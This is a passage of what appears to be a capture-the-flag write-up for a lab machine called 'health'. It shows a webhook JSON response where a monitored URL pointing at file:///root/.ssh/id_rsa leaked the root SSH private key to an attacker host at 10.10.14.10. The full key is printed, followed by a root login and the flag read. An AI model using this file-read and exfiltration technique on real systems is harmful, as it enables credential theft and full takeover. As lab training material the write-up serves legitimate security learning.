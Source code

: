 ```bash
{"webhookUrl":"http:\/\/10.10.14.10\/","monitoredUrl":"file:\/\/\/root\/.ssh\/id_rsa","health":"up","body":"-----BEGIN RSA PRIVATE KEY-----\nMIIEowIBAAKCAQEAwddD+eMlmkBmuU77LB0LfuVNJMam9\/jG5NPqc2TfW4Nlj9gE\nKScDJTrF0vXYnIy4yUwM4\/2M31zkuVI007ukvWVRFhRYjwoEPJQUjY2s6B0ykCzq\nIMFxjreovi1DatoMASTI9Dlm85mdL+rBIjJwfp+Via7ZgoxGaFr0pr8xnNePuHH\/\nKuigjMqEn0k6C3EoiBGmEerr1BNKDBHNvdL\/XP1hN4B7egzjcV8Rphj6XRE3bhgH\n7so4Xp3Nbro7H7IwIkTvhgy61bSUIWrTdqKP3KPKxua+TqUqyWGNksmK7bYvzhh8\nW6KAhfnHTO+ppIVqzmam4qbsfisDjJgs6ZwHiQIDAQABAoIBAEQ8IOOwQCZikUae\nNPC8cLWExnkxrMkRvAIFTzy7v5yZToEqS5yo7QSIAedXP58sMkg6Czeeo55lNua9\nt3bpUP6S0c5x7xK7Ne6VOf7yZnF3BbuW8\/v\/3Jeesznu+RJ+G0ezyUGfi0wpQRoD\nC2WcV9lbF+rVsB+yfX5ytjiUiURqR8G8wRYI\/GpGyaCnyHmb6gLQg6Kj+xnxw6Dl\nhnqFXpOWB771WnW9yH7\/IU9Z41t5tMXtYwj0pscZ5+XzzhgXw1y1x\/LUyan++D+8\nefiWCNS3yeM1ehMgGW9SFE+VMVDPM6CIJXNx1YPoQBRYYT0lwqOD1UkiFwDbOVB2\n1bLlZQECgYEA9iT13rdKQ\/zMO6wuqWWB2GiQ47EqpvG8Ejm0qhcJivJbZCxV2kAj\nnVhtw6NRFZ1Gfu21kPTCUTK34iX\/p\/doSsAzWRJFqqwrf36LS56OaSoeYgSFhjn3\nsqW7LTBXGuy0vvyeiKVJsNVNhNOcTKM5LY5NJ2+mOaryB2Y3aUaSKdECgYEAyZou\nfEG0e7rm3z++bZE5YFaaaOdhSNXbwuZkP4DtQzm78Jq5ErBD+a1af2hpuCt7+d1q\n0ipOCXDSsEYL9Q2i1KqPxYopmJNvWxeaHPiuPvJA5Ea5wZV8WWhuspH3657nx8ZQ\nzkbVWX3JRDh4vdFOBGB\/ImdyamXURQ72Xhr7ODkCgYAOYn6T83Y9nup4mkln0OzT\nrti41cO+WeY50nGCdzIxkpRQuF6UEKeELITNqB+2+agDBvVTcVph0Gr6pmnYcRcB\nN1ZI4E59+O3Z15VgZ\/W+o51+8PC0tXKKWDEmJOsSQb8WYkEJj09NLEoJdyxtNiTD\nSsurgFTgjeLzF8ApQNyN4QKBgGBO854QlXP2WYyVGxekpNBNDv7GakctQwrcnU9o\n++99iTbr8zXmVtLT6cOr0bVVsKgxCnLUGuuPplbnX5b1qLAHux8XXb+xzySpJcpp\nUnRnrnBfCSZdj0X3CcrsyI8bHoblSn0AgbN6z8dzYtrrPmYA4ztAR\/xkIP\/Mog1a\nvmChAoGBAKcW+e5kDO1OekLdfvqYM5sHcA2le5KKsDzzsmboGEA4ULKjwnOXqJEU\n6dDHn+VY+LXGCv24IgDN6S78PlcB5acrg6m7OwDyPvXqGrNjvTDEY94BeC\/cQbPm\nQeA60hw935eFZvx1Fn+mTaFvYZFMRMpmERTWOBZ53GTHjSZQoS3G\n-----END RSA PRIVATE KEY-----\n"}
```
## SSH as root
Connect to the ssh using private key
```bash
root@health:~# id && whoami
uid=0(root) gid=0(root) groups=0(root)
root
root@health:~# cat root.txt 
fdd3******************c307
root@health:~# 
```

